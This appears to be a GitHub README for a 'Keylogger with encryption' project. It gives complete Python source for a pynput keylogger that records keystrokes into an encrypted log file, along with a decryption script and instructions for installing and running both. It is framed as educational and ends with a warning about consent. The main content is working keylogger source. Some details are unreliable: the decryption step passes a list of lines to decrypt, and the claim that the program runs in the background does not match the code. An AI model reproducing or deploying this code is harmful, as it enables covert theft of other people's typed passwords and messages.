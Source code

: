 # Keylogger with encryption
## Purpose
The project is designed to better understand the techniques used by attackers and methods of defending against such threats. 
## Description
This project consist of two programs: one for logging key presses and another for decrypting the logged data. The programs are written in Python and use the `pynput` library to capture key presses and the `cryptography` library for encrypting and decrypting data.
# Code
## Keylogger Program (keylogger.py)
``` python 
from pynput import keyboard
import datetime
from cryptography.fernet import Fernet

# Generate encryption key
key = Fernet.generate_key()
cipher_suite = Fernet(key)

# Save key to file 
with open('key.key', 'wb') as f:
    f.write(key)

buffer = []

def on_press(key):
    global buffer 
    if key == keyboard.Key.space:
        # Create a log with the current time and buffer content, then encrypt it
        log = f'[{datetime.datetime.now().strftime('%Y-%m-%d, %H:%M:%S')}] {"".join(buffer)}\n'
        encrypted_logs = cipher_suite.encrypt(log.encode())
        with open('klogs.txt', 'ab') as f: # Opening the file in append binary mode
            f.write(encrypted_logs + b'\n')
        buffer = []
    else:
        try:
            if key.char.isalpha():  # Check if the pressed key is a letter
                buffer.append(key.char)
            else:
                buffer.append(str(key).replace("'", ""))
        except AttributeError:  # Ignore non-character keys like Shift, Ctrl.
           pass 
# Checking if the pressed key is esc if so stop listening key presses
def on_release(key):
    if key == keyboard.Key.esc:
        return False 
        
with keyboard.Listener(on_press=on_press, on_release=on_release) as Listener:
    Listener.join() # Start listening to key presses
```
### Explanation
1. `Imports`: 
Import necessary modules to keyboard events, handling dates and encrypted data.
2. `Encryption Key`:
Generate and save an encryption key for secure data storage.
3. `Buffer`:
A list to collect characters typed by the user.
4. `on_press Function`:
Handles key press events, appends characters to a buffer and writes encrypted logs to a file when the space bar is pressed.
5. `on_release Function`:
Stops listening for a key presses when the Esc key is pressed.
6.  `Listener`:
Initialazes and starts the keyboard listener to call the defined functions on key events.
## Log decryption Program (decryption.py)
``` python
from cryptography.fernet import Fernet

# Load encryption key
with open('key.key', 'rb') as f:
    key = f.read()
    
cipher_suite = Fernet(key)

# Decrypt logs
with open('klogs.txt', 'rb') as f:
    encrypted_logs = f.readlines()
    
decrypted_logs = []
decrypted_logs = cipher_suite.decrypt(encrypted_logs)

# Save decrypted logs to a file
with open('decrypted_logs.txt','w') as f:
   f.write(decrypted_logs.decode())
```
## Requirements
- Python 3.x
- Libraries:
 `pynput`, `cryptography`
## Instalation
1. Clone the repository:
   ``` bash
   git clone https://github.com/hackbutnotme/Keylogger
   ```
2. Install the required libraries:
   ``` bash
   pip install pynput
   pip install cryptography
   ```
## Usage
1. Run the keylogger.py:
   ``` bash
   python keylogger.py
   
   # The program will run in the background, logging key presses.
    ```
2. After logging key presses and saving them to `klogs.txt`, run the fecryptor program:
    ``` bash
    python decryption.py

    # The decrypted logs will be saved to `decrytped_logs.txt`.
    ```
## WARNING
This project is intended for educational purposes only. Using such tools to monitor the activities of others without their consent is illegal and unethical. Please use this project responsibly.
